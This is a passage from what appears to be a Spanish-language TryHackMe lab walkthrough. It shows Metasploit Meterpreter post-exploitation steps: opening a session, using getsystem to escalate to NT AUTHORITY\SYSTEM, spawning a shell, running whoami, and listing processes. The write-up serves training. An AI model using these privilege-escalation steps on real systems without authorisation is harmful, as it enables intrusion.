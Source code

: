 En este punto, vamos a pasar a usar la consola de meterpreter.

```bash 

sessions -i <ID_METERPRETER>

```

Usamos el comando **getsystem** como nos indican en el guion de tryhackme para verificar que hemos escalado a **NT AUTHORITY\SYSTEM**.

```bash 

getsystem

```

![Entrar nueva sesion y getsystem](img/14.png)

Tambien nos pide que ejecutemos el comando **shell** y que hagamos **whoami**.


```bash 

shell
whoami

```

![Whoami](img/15.png)

El siguiente paso que nos indican es ejecutar **ps** y buscar un proceso del final de la lista y apuntar su **ID**.

```bash 

ps

```
